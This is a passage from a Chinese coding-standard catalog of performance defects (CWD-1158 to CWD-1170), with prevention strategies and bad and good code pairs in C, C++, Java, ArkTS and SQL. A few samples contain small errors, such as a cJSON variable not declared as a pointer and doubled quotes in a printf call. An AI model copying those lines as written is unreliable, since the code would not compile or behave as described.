  1.使用性能分析工具，测量循环的执行时间、CPU使用率和内存占用，识别潜在的资源消耗问题。
  2.测试循环在高负载下的表现，确保系统能够处理大量循环操作而不崩溃

**代码Review**
- 策略：
  1.重点检查循环中的资源管理逻辑，确保内存、文件句柄等资源被正确分配和释放。
  2.审查循环的结构和逻辑，识别出不必要的循环或过度循环，提出优化建议。
  3.确保代码中没有硬编码的资源分配和释放操作，所有资源管理都符合最佳实践。

**编译构建**
- 策略：
  1.启用编译器的优化选项，减少循环中的资源消耗，如优化内存分配和释放。

**代码检查**
- 策略：
  1.利用静态代码分析工具，自动检测循环中资源消耗过多的问题，如未释放的内存、频繁的内存分配等

**集成测试**
- 策略：
  1.测试系统在处理大量循环操作时的性能和稳定性，确保其不会因为资源消耗过多而导致崩溃或性能下降。
  2.验证资源管理机制的有效性，确保所有资源都被正确分配和释放，避免资源泄漏或耗尽

**示例**
**案例1: 循环内解析输入参数**
**语言: **C

**描述**
循环类解析输入参数检测

**案例分析**
在循环内进行输入参数解析，每次循环都进行一次解析，导致资源消耗。

**反例**
```c
void func(char* jsonStr, cJSON jsonRoot) {
    int i;
    for (i = 0; i < 3; i++) {
        cJSON root = cJSON_Parse(jsonStr);
        char *str1 = cJSON_Print(jsonRoot);
        printf("Business");
    }
}
```

**正例**
```c
void func(char* jsonStr, cJSON jsonRoot) {
    int i;
    cJSON root = cJSON_Parse(jsonStr);
    char *str1 = cJSON_Print(jsonRoot);
    for (i = 0; i < 3; i++) {
     printf("Business");
    }
}
```

**修复建议**
解析输入参数在循环外处理

**案例2: 在循环中使用strlen函数**
**语言: **CPP

**描述**
strlen函数用于计算字符串的长度，直到遇到空字符'\0'为止。每次调用strlen都会遍历整个字符串，直到找到结束符。这意味着，如果在循环中多次调用strlen，尤其是当循环次数很多的时候，每次都要遍历整个字符串，这会增加计算时间和CPU资源的消耗，导致性能下降和资源浪费。

**反例**
```cpp
void Func(const char *array)
{
    int loop;
    int num;
    for (loop = 0; loop < MAXNUM; loop++) {
        num = strlen(array); // 不符合
    }
}
```

**正例**
```cpp
void Func(const char *array)
{
    int loop;
    int num = strlen(array); // 符合：移到循环外
    for (loop = 0; loop < MAXNUM; loop++) {
        // 使用num
    }
}
```

**修复建议**
在循环之外计算字符串的长度，这样只需要计算一次，而不是每次循环都计算。

#### CWD-1158-000 循环中资源消耗过多

#### CWD-1158-001 循环中调用外部的耗时接口影响性能

#### CWD-1158-002 【Redis使用不当导致的性能问题】在循环中使用get方法、copy方法与redis交互导致服务性能下降

**业界缺陷**

- [CWE-1050: Excessive Platform Resource Consumption within a Loop](https://cwe.mitre.org/data/definitions/1050.html)
---

# CWD-1159 在性能关键的操作中不正确地使用自动装箱和拆箱

**描述**
自动装箱和拆箱是Java语言中的便利特性，允许开发人员在基本数据类型和对应的包装类之间自动转换。然而，在性能关键的操作中，不正确地使用自动装箱和拆箱会导致显著的性能问题。每次自动装箱操作都会创建一个新的对象，而拆箱操作则需要进行类型检查和转换。这些操作在高频率或大量数据处理的场景下，会导致性能下降，内存消耗增加并存在潜在的内存泄露风险。通常使用原始数据类型或手动进行装箱和拆箱，同时避免在性能关键的操作中使用自动装箱和拆箱。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
安全,高效

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段明确性能关键区域，并制定相应的编码规范。
  1.确保在性能敏感的模块中优先使用基本数据类型（如 int、double）而不是包装类（如 Integer、Double）。
  2.设计时识别可能需要频繁操作的循环或递归区域，并避免在这些区域中使用自动装箱和拆箱。
  3.使用合适的数据结构和算法，减少不必要的对象创建和类型转换

**编码**
- 策略：在编码时避免在性能敏感区域使用自动装箱和拆箱。
  1.直接使用基本数据类型进行计算和操作，避免不必要的包装类转换。
  2.如果必须使用包装类，手动进行装箱和拆箱操作，而不是依赖编译器的自动转换。
  3.将装箱操作移到循环或递归之外，减少重复操作。
  4.使用局部变量缓存频繁使用的包装类对象，避免重复创建。

**开发者测试**
- 策略：
  1.在性能敏感区域编写单元测试，比较使用包装类和基本数据类型的性能差异。
  2.使用性能测试工具（如 JMeter、JMH）模拟高负载场景，确保代码在高频率操作下不会因自动装箱和拆箱导致性能下降

**代码Review**
- 策略：在代码审查过程中，重点关注性能敏感区域的自动装箱和拆箱问题。
  1.检查循环、递归或其他高频率操作中是否使用了包装类。
  2.确保在性能关键区域优先使用基本数据类型，避免不必要的对象创建。
  3.审查代码中是否存在可以优化的装箱和拆箱操作，例如将装箱操作移到循环之外。
  4.确保手动装箱和拆箱操作的正确性，避免潜在的 NullPointerException。

**编译构建**
- 策略：
  1.使用编译器插件或工具（如 Error Prone）检测自动装箱和拆箱操作，并生成警告或错误。
  2.配置构建工具（如 Maven、Gradle）在编译时检查代码中是否存在性能敏感区域的自动装箱和拆箱问题

**代码检查**
- 策略：
  1.配置静态分析工具（如 FindBugs、Checkstyle、SonarQube）检测性能敏感区域中的自动装箱和拆箱操作。
  2.设置规则，禁止在循环、递归或其他高频率操作中使用包装类。
  3.使用动态分析工具（如 JProfiler、VisualVM）监控运行时的性能，识别因自动装箱和拆箱导致的性能瓶颈。

**示例**
**案例1: 在性能关键操作中不正确地使用自动装箱和拆箱**
**语言: **JAVA

**描述**
在循环分钟使用自动装箱和拆箱，每次循环都会将int类型的i转换为Integer对象，导致频繁的对象创建。

**案例分析**
在这个示例中，循环中每次都会进行自动装箱和拆箱操作。具体问题如下：
1.自动装箱：每次循环都会将int类型的i转换为Integer对象，导致频繁的对象创建。
2.自动拆箱：每次循环都会将Integer对象转换回int类型，导致频繁的类型检查和转换。
3.性能影响：由于循环次数高达1,000,000次，自动装箱和拆箱操作会导致显著的性能下降，增加CPU和内存的使用。

**反例**
```java
public class BoxingUnboxingExample {
    public static void main(String[] args) {
        int n = 1000000;
        long startTime = System.currentTimeMillis();

        // 风险代码：在循环中使用自动装箱和拆箱
        for (int i = 0; i < n; i++) {
            Integer num = i; // 自动装箱
            int result = num; // 自动拆箱
        }

        long endTime = System.currentTimeMillis();
        System.out.println("时间消耗：" + (endTime - startTime) + " 毫秒");
    }
}
```

**正例**
```java
public class BoxingUnboxingExample {
    public static void main(String[] args) {
        int n = 1000000;
        long startTime = System.currentTimeMillis();

        // 正确代码：避免自动装箱和拆箱
        int result;
        for (int i = 0; i < n; i++) {
            result = i; // 直接使用基本数据类型
        }

        long endTime = System.currentTimeMillis();
        System.out.println("时间消耗：" + (endTime - startTime) + " 毫秒");
    }
}
```

**修复建议**
避免在循环中使用自动装箱和拆箱，减少类型转换。

#### CWD-1159-000 在性能关键的操作中不正确地使用自动装箱和拆箱

#### CWD-1159-001 java的自动拆箱动作可能引发空指针

**业界缺陷**

- [CWE-1235: Incorrect Use of Autoboxing and Unboxing for Performance Critical Operations](https://cwe.mitre.org/data/definitions/1235.html)
---

# CWD-1160 忽视数据传递成本的函数参数与返回类型（按值、引用、指针）

**描述**
忽视数据传递成本的函数参数与返回类型缺陷，主要指在函数设计时未充分考虑数据传递方式对性能的影响。不同的数据传递方式（按值、引用、指针）会导致不同的性能开销，特别是在处理大数据时，选择不当的传递方式可能导致显著的性能下降和内存消耗增加。通常情况下根据数据的大小和使用场景，选择按值，引用或者指针传递。对于大数据。优先使用指针或引用传递，避免不必要的复制。

**语言: **C,CPP,JAVA

**严重等级**
信息

**cleancode特征**
高效

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段明确数据传递方式对性能的影响，选择合适的传递方式。
  1.按值传递：适用于小数据量，避免频繁复制大数据。
  2.引用传递：适用于需要修改原数据且数据量较大的情况。
  3.指针传递：适用于大数据量，避免复制，提高效率。
  4.设计时明确数据大小，避免数组越界问题。
  5.使用合适的数据结构和算法，减少不必要的数据传递。

**编码**
- 策略：遵循编码规范，在编码时选择合适的函数参数和返回类型，避免不必要的数据复制。
  1.大数据使用指针或引用：避免按值传递大数据，减少内存消耗和性能开销。
  2.明确传递数据大小：在函数参数中明确传递数组大小，避免越界访问。
  3.避免不必要的返回值：如果函数不需要返回数据，避免返回大数据，减少传递成本。
  4.局部变量优化：在函数内部使用局部变量处理数据，减少传递次数。

**开发者测试**
- 策略：编写性能测试用例，验证不同数据传递方式的性能表现。
  1.比较传递方式性能：测试按值、引用和指针传递在大数据处理时的性能差异

**代码Review**
- 策略：在代码审查过程中，重点关注函数参数和返回类型的传递方式。
  1.检查数据传递方式：确保在处理大数据时使用指针或引用，避免按值传递。
  2.验证数据大小传递：检查函数参数中是否明确传递了数据大小，避免数组越界问题。
  3.审查返回类型：确保返回类型选择合适，避免不必要的数据复制。
  4.优化建议：提出优化建议，如将按值传递改为指针或引用，减少性能开销。

**编译构建**
- 策略：在编译阶段检测和优化数据传递方式。
  1.编译器警告：配置编译器（如 GCC、Clang）生成关于按值传递大数据的警告。
  2.构建工具集成：在构建工具（如 Maven、Gradle）中集成代码检查工具，确保代码在编译时符合性能要求。
  3.优化编译选项：使用编译优化选项（如 -O2、-O3），减少不必要的数据复制。

**代码检查**
- 策略：使用静态代码分析工具检测数据传递方式的问题。
  1.配置静态分析工具：如使用 Coverity、SonarQube，检测按值传递大数据的情况。
  2.设置规则：禁止在处理大数据时使用按值传递，强制使用指针或引用。

**集成测试**
- 策略：在集成测试阶段验证整体系统的数据传递性能。
  1.验证内存使用：监控系统内存使用情况，确保没有因数据传递方式导致的内存泄漏或高内存消耗。

**示例**
**案例1: 大数据类型应采用指针传递**
**语言: **C

**描述**
VOS_MUTEX_T是一个大数据类型，参数mutex传递应采用指针传递

**反例**
```c
unsigned int UDR_CHRF_UfdrLock_bad(VOS_MUTEX_T  mutex) /* 值传递，复制大量数据 */
{
    VOS_MutexLock(&mutex);
    return VOS_OK;
}
```

**正例**
```c
unsigned int UDR_CHRF_UfdrLock_good(VOS_MUTEX_T * mutex) /* 指针传递*/
{
    VOS_MutexLock(mutex);
    return VOS_OK;
}
```

**修复建议**
类型为VOS_MUTEX_T的参数按照指针传递

**案例2: 容器类型值传递**
**语言: **CPP

**描述**
当函数参数是容器类型时，如果不使用引用，编译器会生成一个临时对象的拷贝，这在容器较大的情况下会导致性能问题。例如，传递一个包含大量元素的std::vector时，值传递会导致整个容器被复制，这会增加内存使用和处理时间。

**反例**
```cpp
void Fun(std::vector<std::string> x) // 不符合：拷贝代价可能会很高
{
    // 函数体
}
```

**正例**
```cpp
void Fun3(const std::vector<std::string>& x) // 符合：传引用避免拷贝代价
{
    // 函数体
}
```

**修复建议**
1. 传引用：将容器类型作为引用传递，避免不必要的拷贝操作。
2. 使用const引用：如果函数不需要修改容器的内容，应使用const引用，这样可以确保容器不被修改。

**案例3: 基本类型引用传递**
**语言: **CPP

**描述**
在C++中，char、int 、long 、double等类型，它们的拷贝代价非常小，因此直接传递值并不会带来显著的性能开销。相反，如果将这些类型作为引用传递，反而会增加间接访问的开销，从而可能导致性能下降。

**反例**
```cpp
void Fun2(const int& x) // 不符合：传引用不仅不简洁而且性能更差
{
    // 函数体
}
```

**正例**
```cpp
void Fun1(int x) // 符合：拷贝代价小类型应当直接传值
{
    // 函数体
}
```

**修复建议**
如果函数只是要使用输入参数，并不修改它，那么对于拷贝代价小的类型（如char、int、long、double等）应当传值。

#### CWD-1160-000 忽视数据传递成本的函数参数与返回类型（按值、引用、指针）

---

# CWD-1161 资源消耗过大的线程操作

**描述**
资源消耗过大的线程操作是指在Java程序中，由于线程数量过多、线程管理不当或线程未正确关闭等原因，导致系统资源被过度占用（如CPU使用率过高，内存被大量占用），进而影响程序性能甚至导致系统崩溃的问题。通常通过使用线程池，限制线程数量等方式避免。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
安全,可靠,高效

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段合理规划线程的使用，避免资源过度消耗。
  1.使用线程池：设计时明确使用线程池来管理线程，限制线程数量，避免无限创建线程。
  2.明确线程生命周期：设计线程的任务和生命周期，确保线程能够正确关闭，释放资源。
  3.资源管理：设计共享资源的访问控制，避免线程之间的资源争用和死锁。

**编码**
- 策略：在编码时遵循编程规范，参考线程安全和资源管理的最佳实践。
  1.避免手动创建线程：优先使用线程池（如 ExecutorService）来管理线程，避免手动创建过多线程。
  2.有限任务循环：确保线程任务有明确的结束条件，避免无限循环导致资源耗尽。
  3.正确关闭线程：使用 ExecutorService 的 shutdown() 方法，确保线程池和线程能够正确关闭，释放资源。
  4.同步机制：使用锁（如 synchronized、ReentrantLock）或其他同步机制，避免线程之间的资源争用。

**开发者测试**
- 策略：编写测试用例，验证线程操作的性能和资源使用情况。
  1.线程池大小测试：测试不同线程池大小对系统性能的影响，找到最优配置。
  2.资源使用监控：使用性能测试工具（如 JMeter、JMH）监控线程操作的资源使用情况，确保不会导致资源耗尽。

**代码Review**
- 策略：在代码审查过程中，重点关注线程的创建和管理。
  1.检查线程池使用：确保线程池被正确使用，避免手动创建过多线程。
  2.审查线程关闭：检查线程是否能够正确关闭，避免资源泄漏。
  3.同步机制检查：确保共享资源的访问控制正确，避免死锁或资源争用。

**编译构建**
- 策略：
  1.编译器警告：配置编译器（如 JDK）生成关于线程创建的警告，提醒开发者避免手动创建过多线程。
  2.构建工具集成：在构建工具（如 Maven、Gradle）中集成代码检查工具，确保代码在编译时符合线程安全和资源管理的要求。
  3.性能测试集成：在构建过程中运行性能测试，确保线程操作在编译后仍满足性能和资源使用要求。
  4.优化编译选项：使用编译优化选项（如 -XX:+UseParallelGC），提升线程操作的性能和资源利用率

**代码检查**
- 策略：
  1.配置静态分析工具：如使用 FindBugs、Checkstyle，检测线程池使用不当、线程未关闭等问题。
  2.设置规则：禁止手动创建过多线程，强制使用线程池。
  3.动态分析工具：使用 VisualVM、JProfiler 监控运行时线程和资源使用情况，识别潜在的资源消耗问题。
  4.检测无限循环：确保线程任务有明确的结束条件，避免无限循环导致资源耗尽。

**集成测试**
- 策略：
  1.资源使用监控：监控系统资源使用情况，确保线程操作不会导致内存泄漏或高资源消耗。

**示例**
**案例1: 循环创建线程，消耗CPU资源**
**语言: **JAVA

**描述**
main方法中有一个无限循环，不断创建并启动新的线程。每个线程内部也有一个无限循环，导致CPU资源被过度占用

**案例分析**
1.无限创建线程：main方法中的while (true)循环会不断创建新的线程，导致线程数量迅速增加，超出系统处理能力。
2.无限循环消耗CPU：每个线程内部的无限循环会导致CPU使用率迅速上升，系统性能急剧下降。
3.资源泄漏：线程一旦创建，除非被显式终止，否则会一直占用系统资源，导致内存泄漏。

**反例**
```java
public class ThreadResourceExhaustion {
    public static void main(String[] args) {
        while (true) {
            new Thread(new Runnable() {
                @Override
                public void run() {
                    while (true) {
                        // 无限循环，消耗CPU资源
                    }
                }
            }).start();
        }
    }
}
```

**正例**
```java
import java.util.concurrent.ExecutorService;
import java.util.concurrent.Executors;
import java.util.concurrent.TimeUnit;

public class ThreadResourceExhaustion {
    public static void main(String[] args) {
        // 创建一个固定大小的线程池，限制线程数量
        ExecutorService executorService = Executors.newFixedThreadPool(10);

        // 提交任务到线程池
        for (int i = 0; i < 100; i++) {
            executorService.submit(new Runnable() {
                @Override
                public void run() {
                    // 有限循环，避免无限资源消耗
                    for (int j = 0; j < 1000; j++) {
                        // 执行任务
                    }
                }
            });
        }

        // 关闭线程池
        executorService.shutdown();
        try {
            // 等待所有任务完成
            if (!executorService.awaitTermination(1, TimeUnit.MINUTES)) {
                // 如果超时，强制关闭
                executorService.shutdownNow();
            }
        } catch (InterruptedException e) {
            executorService.shutdownNow();
            Thread.currentThread().interrupt();
        }
    }
}
```

**修复建议**
1.使用线程池限制线程数量：通过ExecutorService来管理线程，限制线程池的大小，避免创建过多的线程。
2.避免无限循环：确保线程任务有明确的结束条件，避免无限循环导致资源耗尽。
3.正确关闭线程：使用ExecutorService的shutdown()方法，确保线程能够正确关闭，释放资源。
4.使用同步机制：如果多个线程需要访问共享资源，使用锁或其他同步机制，避免资源争用。

#### CWD-1161-000 资源消耗过大的线程操作

#### CWD-1161-001 使用Executors类的newFixedThreadPool、newSingleThreadExecutor、newCachedThreadPool方法创建线程池导致资源耗尽

---

# CWD-1162 具有非常大迭代次数的循环

**描述**
具有非常大迭代次数的循环是指在程序中使用了循环结构，其迭代次数非常大，可能导致性能问题或资源耗尽的情况。这种缺陷通常出现在需要处理大量数据或进行复杂计算的场景中。以Java的addDocumentListener为例，addDocumentListener内部包含循环遍历，如果在循环中频繁添加大量DocumentListener，每次添加监听器都会增加事件处理的负担，导致性能下降或系统资源耗尽。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
高效

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段合理规划循环的使用，避免资源过度消耗。

**编码**
- 策略：在编码时遵循循环优化的最佳实践
  1.减少循环次数：尽量减少循环的次数，或者优化循环内部的操作，使其更加高效。
  2.避免复杂操作：在循环内部，尽量避免复杂的计算或I/O操作，减少每次迭代的时间消耗

**开发者测试**
- 策略：
  1.资源监控：监控循环操作的资源使用情况，确保不会导致内存泄漏或高资源消耗。

**代码Review**
- 策略：
  1.检查循环次数：确保循环的次数合理，避免无限循环或次数过多的情况。
  2.审查内部操作：检查循环内部的操作，确保没有复杂的计算或I/O操作，减少每次迭代的时间消耗。

**编译构建**
- 策略：
  1.编译器警告：配置编译器（如 JDK）生成关于循环次数过多的警告，提醒开发者优化循环结构。
  2.优化编译选项：使用编译优化选项（如 -XX:+UseParallelGC），提升循环操作的性能和资源利用率。

**代码检查**
- 策略：
  1.配置静态分析工具：如使用 FindBugs、Checkstyle，检测循环次数过多或内部操作复杂的问题。
  2.设置规则：禁止在循环内部进行复杂的计算或I/O操作

**集成测试**
- 策略：
  1.资源使用监控：监控系统资源使用情况，确保循环操作不会导致内存泄漏或高资源消耗。

**示例**
**案例1: 大量循环中使用addDocumentListener**
**语言: **JAVA

**描述**
循环的迭代次数达到了一百万次，每次迭代都会向textField的文档中添加一个新的DocumentListener，占用大量内存

**反例**
```java
import javax.swing.JFrame;
import javax.swing.JTextField;
import javax.swing.event.DocumentEvent;
import javax.swing.event.DocumentListener;

public class LargeLoopExample {
    public static void main(String[] args) {
        JFrame frame = new JFrame("Example");
        JTextField textField = new JTextField();
        frame.add(textField);
        frame.setSize(300, 200);
        frame.setVisible(true);

        final int MAX_ITERATIONS = 1000000; // 一百万次循环

        // 风险代码：在循环中频繁添加DocumentListener
        for (int i = 0; i < MAX_ITERATIONS; i++) {
            textField.getDocument().addDocumentListener(new DocumentListener() {
                @Override
                public void insertUpdate(DocumentEvent e) {
                    // 处理插入事件
                }

                @Override
                public void removeUpdate(DocumentEvent e) {
                    // 处理删除事件
                }

                @Override
                public void changedUpdate(DocumentEvent e) {
                    // 处理内容变化事件
                }
            });
        }
    }
}
```

**正例**
```java
import javax.swing.JFrame;
import javax.swing.JTextField;
import javax.swing.event.DocumentEvent;
import javax.swing.event.DocumentListener;

public class LargeLoopExample {
    public static void main(String[] args) {
        JFrame frame = new JFrame("Example");
        JTextField textField = new JTextField();
        frame.add(textField);
        frame.setSize(300, 200);
        frame.setVisible(true);

        final int MAX_ITERATIONS = 1000000; // 一百万次循环

        // 正确代码：避免频繁添加DocumentListener
        DocumentListener listener = new DocumentListener() {
            @Override
            public void insertUpdate(DocumentEvent e) {
                // 处理插入事件
            }

            @Override
            public void removeUpdate(DocumentEvent e) {
                // 处理删除事件
            }

            @Override
            public void changedUpdate(DocumentEvent e) {
                // 处理内容变化事件
            }
        };

        // 添加一次监听器
        textField.getDocument().addDocumentListener(listener);
    }
}
```

**修复建议**
1.减少循环次数：避免在循环中频繁添加监听器，而是只添加一次。

#### CWD-1162-000 具有非常大迭代次数的循环

---

# CWD-1163 性能低下的字符串拼接操作

**描述**
性能低下的字符串拼接操作是指在Java程序中，由于使用不当的字符串拼接方式，导致程序在处理大量字符串时性能显著下降，内存消耗增加的问题。这种缺陷通常出现在需要频繁拼接字符串的场景中，尤其是在循环中使用+操作符进行拼接。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
高效

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段合理规划字符串拼接的使用，避免不必要的拼接操作

**编码**
- 策略：在编码时遵循字符串拼接优化的最佳实践。
  1.减少拼接次数：尽量减少不必要的拼接操作，优化代码逻辑，减少循环中的拼接次数。
  2.避免在循环中使用+操作符：在循环中使用+操作符会导致频繁创建新的字符串对象，增加垃圾回收的负担

**开发者测试**
- 策略：
  1.资源监控：监控字符串拼接操作的内存使用情况，确保不会导致内存泄漏或高内存消耗

**代码Review**
- 策略：
  1.审查拼接次数：检查字符串拼接的次数，确保没有不必要的拼接操作，特别是在循环中

**代码检查**
- 策略：
  1.设置规则：禁止在循环中使用性能低下的字符串拼接操作

**示例**
**案例1: 性能低下的字符串拼接**
**语言: **JAVA

**描述**
在将内容附加到字符串时，不需要调用String.valueOf方法。

**反例**
```java
public String convert(int i) {
    String str;
    str = "a" + String.valueOf(i);    // not required
    return str;
}
```

**正例**
```java
public String convert(int i) {
    String str;
    str = "a" + i;                    // preferred approach
    return str;
}
```

**修复建议**
在数字附加到字符串时，不需要调用String.valueOf方法，直接+号拼接即可。

#### CWD-1163-000 性能低下的字符串拼接操作

#### CWD-1163-001 连续operator+拼接字符串，导致临时变量创建拷贝产生性能问题

**业界缺陷**

- [CWE-1046: Creation of Immutable Text Using String Concatenation](https://cwe.mitre.org/data/definitions/1046.html)
---

# CWD-1164 非跨语言场景中使用ESObject标记

**描述**
在非跨语言场景中使用ESObject标记会导致不必要的性能开销和代码耦合度增加。ESObject主要用于跨语言环境，确保对象在不同语言间正确传递。在同语言环境中使用ESObject，会引入序列化和反序列化过程，增加处理时间，影响性能。

**语言: **ARKTS

**严重等级**
提示

**cleancode特征**
高效,可维护

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.在系统设计阶段，明确ESObject的使用场景，仅在跨语言交互的场景中使用ESObject标记。
  2.设计时应区分跨语言和非跨语言场景，避免在非跨语言场景中滥用ESObject。
  3.提供清晰的接口和数据传递规范，确保非跨语言场景中使用普通对象或更高效的数据结构。

**编码**
- 策略：
  1.在非跨语言场景中，避免使用ESObject标记，改用普通对象或更高效的数据结构。
  2.提供代码模板或示例，指导开发者在非跨语言场景中使用普通对象。

**开发者测试**
- 策略：
  1.测试时验证对象传递的性能，确保没有不必要的序列化和反序列化开销。

**代码Review**
- 策略：
  1.在代码Review阶段，重点检查ESObject的使用场景，确保仅在跨语言场景中使用。
  2.审查代码时，确认非跨语言场景中未使用ESObject标记。

**代码检查**
- 策略：
  1.配置代码检查规则，禁止在非跨语言场景中使用ESObject标记；使用代码检查工具（如静态代码分析工具）检测ESObject的使用场景，确保非跨语言场景中未使用ESObject。

**集成测试**
- 策略：
  1.测试时检查对象传递的性能，确保没有不必要的序列化和反序列化开销。

**示例**
**案例1: 非跨语言场景中使用ESObject标记**
**语言: **ARKTS

**描述**
ESObject主要用在ArkTS和TS/JS跨语言调用场景中的类型标注，在非跨语言调用场景中使用ESObject标注类型，会引入不必要的跨语言调用，造成额外性能开销。

**反例**
```arkts
// lib.ets
export interface I {
  sum: number
}
export function getObject(value: number): I {
  let obj: I = { sum: value };
  return obj
}
// app.ets
import { getObject } from 'lib'
let obj: ESObject = getObject(123); // 使用ESObject，导致额外性能开销
```

**正例**
```arkts
// lib.ets
export interface I {
  sum: number
}
export function getObject(value: number): I {
  let obj: I = { sum: value };
  return obj
}
// app.ets
import { getObject, I } from 'lib'
let obj: I = getObject(123);
```

**修复建议**
非跨语言调用场景不使用ESObject标注类型

#### CWD-1164-000 非跨语言场景中使用ESObject标记

---

# CWD-1165 重复访问某个相同操作的表达式

**描述**
重复访问相同操作的表达式指的是在代码中多次访问同一个变量、结构体成员或执行相同函数。这种做法会导致额外的性能开销，尤其是在大循环或长时间运行的程序中。重复访问可能会导致资源浪费，出现性能问题，降低程序的执行效率。

**语言: **C,CPP,JAVA

**严重等级**
信息

**cleancode特征**
高效

**缺陷防护全景**
**软件实现设计**
- 策略：
  1.提供模块化的函数或方法，减少重复调用的可能性。

**编码**
- 策略：
  1.使用局部变量缓存重复访问的结果，减少重复计算。
  2.将重复的操作封装成函数或方法，确保只调用一次。

**代码Review**
- 策略：
  1.在代码审查过程中，特别关注是否有重复访问相同操作的表达式。
  2.确保代码检查规则中包含避免重复访问的条款。

**代码检查**
- 策略：
  1.设置代码检查规则，使用静态代码分析工具（如Coverity），自动检测重复访问相同操作的表达式。

**示例**
**案例1: 循环中重复调用同一函数**
**语言: **C

**描述**
在for循环中作为检查条件，每次循环时都调用strlen函数获取长度，导致额外的性能开销。

**反例**
```c
void test_strlen_01()
{
    unsigned int i;
    char *t_value = getString();
    if (t_value == NULL) {
        return;
    }
    for (i = 0; i < (unsigned int)strlen(t_value); i++) {  // 循环执行时，每次调用strlen获取长度，导致额外性能开销
        printf(""for strlen \n"");
    }
    i = 0;
    while (i <= (unsigned int)strlen(t_value)) { // 循环执行时，每次调用strlen获取长度，导致额外性能开销
        i++;
        printf(""while strlen \n"");
    }
    ...
}
```

**正例**
```c
void test_strlen_01()
{
    unsigned int i;
    char *t_value = getString();
    if (t_value == NULL) {
        return;
    }
	unsigned int value = (unsigned int)strlen(t_value);
    for (i = 0; i < value; i++) {
        printf("for strlen \n");
    }
    i = 0;
    while (i < value) {
        i++;
        printf("while strlen \n");
    }
    ...
}
```

**修复建议**
1. 在循环前计算字符串长度，存储到变量中。
2. 修改循环条件，使用存储的变量，避免重复调用strlen。

**案例2: 重复的结构体成员访问操作**
**语言: **CPP

**描述**
结构体成员的访问通常涉及内存操作，尤其是在多级指针的情况下，比如a->b->c->d，这样会增加指令的执行时间。如果在循环或者频繁调用的函数中，重复这样的操作，性能损失会更明显。

**反例**
```cpp
for (int i = 0; i < n; ++i) {
    int x = a.b->c->d; // 不符合
    int y = a.b->c->e; // 不符合
}
```

**正例**
```cpp
struct C* pc = a.b->c; // 存储中间结果到局部变量
for (int i = 0; i < n; ++i) {
    int x = pc->d; // 符合
    int y = pc->e; // 符合
}
```

**修复建议**
1. 将重复的操作存储到局部变量中，避免重复计算。
2. 确保在存储中间结果前，指针不为空，避免空指针访问

#### CWD-1165-000 重复访问某个相同操作的表达式

#### CWD-1165-001 在循环体中，重复调用返回相同结果的耗时函数

---

# CWD-1166 单个条件扩展为多个条件导致的低效问题

**描述**
在SQL查询中，将一个简单的条件扩展为多个条件时，可能导致查询效率下降。这种做法通常发生在过度规范化、不必要的复杂条件或缺乏索引的情况下。多个条件会增加查询的复杂性，影响数据库的执行效率，增加资源消耗。

**语言: **JAVA,SQL

**严重等级**
提示

**cleancode特征**
高效,可读,可维护

**缺陷防护全景**
**软件实现设计**
- 策略：在设计阶段，考虑对应开发语言的使用场景，避免过度规范化。
  1、合理设计数据库表、索引，以支持常见的多条件查询。
  2、合理使用PYTHON函数接口，采用更该高效的用法。

**编码**
- 策略：遵循编码规范，定期进行代码审查，确保语法、函数调用的简洁性和高效性

**代码Review**
- 策略：在代码审查过程中，审视语法，函数调用是否复杂，是否有优化空间。

**代码检查**
- 策略：设置代码检查规则，使用静态代码分析工具，自动检测语法、函数中的潜在问题，如过多条件判断、缺少索引等。

**示例**
**案例1: 多个条件导致额外开销**
**语言: **SQL

**描述**
对于同一条件的OR，可以合并成in，更好的适配索引

**反例**
```sql
SELECT 
    customer_name, 
    order_date, 
    order_amount 
FROM 
    orders 
WHERE 
    name = 'zhangsan'   --SQL中where子句拆分，存在额外的性能开销
    OR name = 'lisi' 
    OR name= 'wangwu';
```

**正例**
```sql
SELECT 
    customer_name, 
    order_date, 
    order_amount 
FROM 
    orders 
WHERE 
    name IN ('zhangsan', 'lisi', 'wangwu');   --合并成in，更好的适配索引
```

**修复建议**
使用IN替代同字段的OR

#### CWD-1166-000 单个条件扩展为多个条件导致的低效问题

---

# CWD-1167 使用低效的API接口

**描述**
在JAVA编程中，系统提供了部分接口，但这些接口存在性能上的问题。在实际的编码中使用了这些低效的API接口，可能导致应用程序性能下降，资源消耗增加，用户体验变差。通常通过优化接口调用逻辑，使用更高效的API接口等手段避免

**语言: **JAVA

**严重等级**
信息

**cleancode特征**
高效,可读

---

# CWD-1168 使用低效的集合判空方法

**描述**
避免使用低效的集合判空方法。例如：isEmpty() 方法的时间复杂度为 O(1)，而 size() == 0 的时间复杂度可能很高，例如在 ConcurrentHashMap 中为 O(n)，因为它需要动态统计 Hash 槽里的数据。因此，从性能角度出发，建议使用集合对象的isEmpty方法或CollectionUtils.isEmpty/MapUtils.isEmpty方法来判空。

**语言: **JAVA

**严重等级**
提示

**cleancode特征**
可靠

---

# CWD-1170 大数据表中的数据查询操作过多

**描述**
在数据库操作中，在大数据表上执行具有大量连接和子查询的数据查询，可能导致系统性能下降，影响用户体验。如果攻击者可以访问相关代码，那么这个性能问题可能会引入漏洞。这种缺陷通常表现为应用程序频繁地向数据库发送查询请求，每次查询仅获取少量数据，或者多次查询相同的数据。过多的查询操作会增加数据库的负载，消耗更多的系统资源，导致响应时间增加，甚至可能引发系统崩溃。

**语言: **SQL

**严重等级**
提示

**cleancode特征**
安全,可靠,高效,可读,可维护,可测试

**缺陷防护全景**
**软件实现设计**
- 策略：在系统设计阶段，优化数据库表结构，设计合理的索引，采用分页和批量处理，减少查询次数。
  1.优化表结构：确保数据库表设计合理，避免过度规范化，减少连接操作。
  2.设计合理索引：为常用查询条件创建索引，提高查询效率。
  3.采用分页和批量处理：在设计时考虑分页查询，避免一次性加载大量数据。

**编码**
- 策略：编写高效的SQL查询语句，避免重复查询，尽量合并多个查询为一个，使用缓存机制减少数据库访问。
  1.合并查询：将多次查询合并为一个，减少数据库访问次数。
  2.使用缓存：对频繁访问的数据进行缓存，减少对数据库的直接查询。
  3.优化查询语句：避免使用复杂的子查询，使用适当的连接和过滤条件。

**开发者测试**
